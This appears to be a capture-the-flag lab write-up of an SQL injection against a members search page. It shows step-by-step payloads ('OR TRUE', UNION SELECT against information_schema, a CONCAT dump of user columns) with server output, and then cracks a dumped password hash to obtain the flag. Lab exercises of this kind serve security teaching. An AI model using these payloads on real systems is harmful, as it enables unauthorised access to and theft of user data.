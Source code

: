 # Sql injection on members table

## How we found the breach

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

### Legit search

First of all trying searching for a userID of `1` results:

Input:

```sql
1
```

Output:

```txt
ID: 1
First name: one
Surname : me
```

We can see that the server returns two user fields.

### Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:

```sql
SELECT * FROM users
```

Output:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server show us the raw MariaDB error, we see that our query has been added to a prebuilt one.
The prebuilt query should look like something:

```sql
SELECT first_name, surname FROM users WHERE users.id = ${id} 
```

### Condition injection

To be able to retrieve to whole users table entry we need to create a SQL query that has a WHERE clause always evaluating to `TRUE`. We achieve this result by adding a `OR TRUE` condition.

Input:

```sql
1 OR TRUE
```

Resulting on the server as:

```sql
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE
```

Output:

```
ID: 1 OR TRUE 
First name: one
Surname : me

ID: 1 OR TRUE 
First name: two
Surname : me

ID: 1 OR TRUE 
First name: three
Surname : me

ID: 1 OR TRUE 
First name: Flag
Surname : GetThe
```

There are four users in the users table. The last one looks quite suspicious.

### UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As a first SQL query is build using our input. By using the UNION SELECT attack we could build a new query over the first one.

We want to discard all results of the first SELECT and only keep those of our own SELECT. For that we make sure the WHERE clause of the first SELECT always evaluates to `FALSE`.

Input:

```sql
-1 UNION SELECT * FROM users
```

As a serial integer is never negative, no user can have an id that is `-1`.

Output:
```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more than the initial sql query, that returned 2 columns, due to selecting all fields with `*`.

### Finding all tables columns name

Our goal is to retrieve all the `users` table columns names to be able to gather them using the `UNION SELECT` injection.
To do so we will be using the default database `information_schema.columns` information.

Input:

```sql
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:

```
<!-- OTHER DATABASE INFORMATION -->

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

### Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve all the users entry columns value within on column, as the initial query returns only 2 columns.

Input:

```sql
-1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users
```

Output:

```sql
ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1

ID: -1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

#### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` contained in the `countersign` users table column that leads to `FortyTwo`.

Hashing using sha256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## How to exploit the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/Explanations.md)

## How to avoid the breach

[See explanation on the document for the other SQL injection breach →](../../search_images_sql_injection/Ressources/Explanations.md)
